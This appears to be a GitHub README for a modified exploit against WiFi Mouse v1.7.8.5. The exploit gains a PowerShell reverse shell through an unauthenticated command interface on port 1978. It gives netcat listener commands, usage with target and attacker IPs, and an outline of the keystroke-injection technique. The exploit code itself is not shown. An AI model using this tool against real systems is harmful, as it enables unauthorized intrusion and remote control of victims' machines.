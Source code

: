 # WiFi Mouse RCE - Direct Reverse Shell

A modified exploit for WiFi Mouse (v1.7.8.5) that delivers a PowerShell reverse shell directly to the target without requiring payload upload or staging.

## Overview

This exploit leverages an unauthenticated Remote Code Execution vulnerability in WiFi Mouse application by sending specially crafted packets to port 1978. Unlike the original exploit that required payload staging, this version injects a PowerShell reverse shell one-liner directly through the application's command interface.

## Requirements

- Python 3.x
- Target running WiFi Mouse v1.7.8.5 (or potentially other vulnerable versions)
- Network connectivity to target's port 1978

## Usage

1. Set up a netcat listener on your attacking machine:
```bash
nc -lvnp <port>
```

2. Run the exploit:
```bash
python3 wifi_mouse_rce.py <target-ip> <attacker-ip> <attacker-port>
```

### Example
```bash
# Setup listener
nc -lvnp 4444

# Execute exploit
python3 wifi_mouse_rce.py 192.168.1.100 192.168.1.200 4444
```

## Technical Details

The exploit works by:
1. Opening a connection to the target's WiFi Mouse service on port 1978
2. Sending a command to open cmd.exe
3. Typing a PowerShell reverse shell one-liner character by character
4. Executing the command with an Enter keypress

The PowerShell reverse shell uses a standard TCP client to establish a connection back to the attacker, providing command execution with the privileges of the WiFi Mouse application.

## Modifications from Original

This script is modified from the original WiFi Mouse RCE exploit (EDB-ID: 50972) with the following changes:
- Removed file upload functionality
- Implemented direct PowerShell reverse shell injection
- Simplified usage with straightforward command-line arguments

## Disclaimer

This tool is provided for educational and professional security testing purposes only. Use only against systems you own or have explicit permission to test. Unauthorized use is illegal and unethical.

## Credits

- Original exploit by Alejandro Fanjul
- Modified for direct reverse shell by Illini Tech Services/Jeremy Ison

## License

This project is licensed under the MIT License.
